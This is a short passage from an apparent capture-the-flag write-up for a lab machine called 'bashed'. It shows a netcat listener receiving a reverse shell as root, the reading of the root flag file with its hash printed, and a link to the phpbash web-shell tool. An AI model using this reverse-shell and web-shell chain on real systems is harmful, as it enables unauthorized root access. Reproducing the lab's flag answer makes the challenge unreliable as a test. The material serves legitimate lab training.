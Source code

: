 ```
└─$ nc -nvlp 9998                                                                                           130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9998
Ncat: Listening on 0.0.0.0:9998
Ncat: Connection from 10.10.10.68.
Ncat: Connection from 10.10.10.68:49656.
bash: cannot set terminal process group (23430): Inappropriate ioctl for device
bash: no job control in this shell
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bashed:/scripts# cd /root
cd /root
root@bashed:~# ls
ls
root.txt
root@bashed:~# cat root.txt
cat root.txt
cc4f0afe3a1026d402ba10329674a8e2
root@bashed:~#  
```

## Resources

{% embed url="https://github.com/Arrexel/phpbash" %}

